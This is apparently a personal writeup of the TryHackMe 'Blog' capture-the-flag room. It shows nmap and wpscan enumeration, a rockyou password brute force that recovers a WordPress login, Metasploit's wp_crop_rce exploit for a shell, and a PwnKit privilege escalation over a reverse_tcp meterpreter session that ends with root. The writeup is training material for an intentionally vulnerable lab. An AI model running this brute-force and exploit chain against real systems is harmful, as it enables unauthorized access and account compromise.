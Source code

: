```yaml
---
title: /writeups/Blog
layout: page
permalink: /writeups/Blog
---
```

Writeup of THM Machine called <a href="https://tryhackme.com/room/blog">"Blog"</a>

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
</pre></td><td class="rouge-code"><pre>Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file.

Credit to Sq00ky for the root privesc idea ;) 
</pre></td></tr></tbody></table></code></pre></div></div>

#Enumeration
<p>Obviously first thing I did was an nmap scan:</p>
<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
</pre></td><td class="rouge-code"><pre>$ nmap -T4 -A -sV blog.thm
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 15:42 CET
Nmap scan report for blog.thm <ip>
Host is up (0.069s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp   open     http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
5906/tcp filtered rpas-c2
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
Host script results:
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2024-02-04T14:42:59+00:00
| smb2-time: 
|   date: 2024-02-04T14:42:59
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.93 seconds 
</pre></td></tr></tbody></table></code></pre></div></div>
I personally didn't even try to enumerate smb further, luckily, I saw in other writeups that it's a honeypot
<p>However, we can see, that on port 80 there's an http server<p>
##http
<img src="/images/blog_main.png" alt="Wordpress Home site" />
We can see, that it is a wordpress blog, so I run wpscan (I removed boring stuff): 

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
</pre></td><td class="rouge-code"><pre>┌──(silen㉿pop-os)-[~/Desktop/THM/Blog]
└─$ wpscan --url http://blog.thm -e u 
Interesting Finding(s):

[+] robots.txt found: http://blog.thm/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%
 
[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blog.thm/feed/, <generator>https://wordpress.org/?v=5.0</generator>
 |  - http://blog.thm/comments/feed/, <generator>https://wordpress.org/?v=5.0</generator>
 
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <================================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:01
 
[i] User(s) Identified:
 
[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
 
[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
</pre></td></tr></tbody></table></code></pre></div></div>
<p>First of all, it tells us that the wordpress is running on version 5.0. Quick google search gets us CVE-2019-8943 to which, we need user login and password, but wpscan also helps us there as it gives us two usernames - "kwheel" and "bjoel". I decided to bruteforce them because I didn't have any other idea. Also, kwheel seemed to probably care less about her password than her son, so I tried to brute force her user first.</p>
<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
</pre></td><td class="rouge-code"><pre>┌──(silen㉿pop-os)-[~/Desktop/THM/Blog]
└─$ wpscan --url http://blog.thm -P /usr/share/wordlists/rockyou.txt -U kwheel -t 32
 
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / <oz#mJ@y8C$vq6@>                                                                                                                                                                                                                
Trying kwheel / <oz#mJ@y8C$vq6@> Time: 00:00:46 <                                                                                                                                                              > (<37> / 14347272)  0.02%  ETA: ??:??:??
 
[!] Valid Combinations Found:
 | Username: kwheel, Password: <oz#mJ@y8C$vq6@>
</pre></td></tr></tbody></table></code></pre></div></div>
As you can see we found valid combination. 
<p>I mentioned before CVE-2019-8943, it turns out, there is a metasploit module which we can use called "exploit/multi/http/wp_crop_rce"</p>
After setting up every option and running exploit, we gain a shell!

## PrivEsc
I saw that there is nicer way (envolving reverse engineering) to do privelege escalation than I did, but I will show my simple way using metasploit modules.
<p>First module I run was "post/multi/manage/shell_to_meterpreter", which made it possible to use exploit suggester (post/multi/recon/local_exploit_suggester)<p/>
<p>Suggester tells us, that the system is vulnerable to CVE-2021-4032</p>
<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
</pre></td><td class="rouge-code"><pre>msf6 post(multi/recon/local_exploit_suggester) > use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec 
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp

msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set session 4
session => 4
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set lhost tun0
lhost => 37.37.37.37
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set lport 9898
lport => 9898
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > exploit
 
[*] Started reverse TCP handler on 10.14.68.194:9898 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Verify cleanup of /tmp/.pltvpwc
[+] The target is vulnerable.
[*] Writing '/tmp/.zbzpuhuxuf/huogglp/huogglp.so' (548 bytes) ...
[!] Verify cleanup of /tmp/.zbzpuhuxuf
[*] Sending stage (3045380 bytes) to 10.10.22.192
[+] Deleted /tmp/.zbzpuhuxuf/huogglp/huogglp.so
[+] Deleted /tmp/.zbzpuhuxuf/.vtxjvu
[+] Deleted /tmp/.zbzpuhuxuf
[*] Meterpreter session 5 opened (10.14.68.194:9898 -> 10.10.22.192:59766) at 2024-02-04 18:35:48 +0100

meterpreter > shell
Process 5384 created.
Channel 1 created.
whoami
root
</pre></td></tr></tbody></table></code></pre></div></div>
<p>After running which, we gain root access!</p>
<p>Now we can look for flag that is hidden in "/media/usb" and move to the next room :D</p>


Thank you for reading
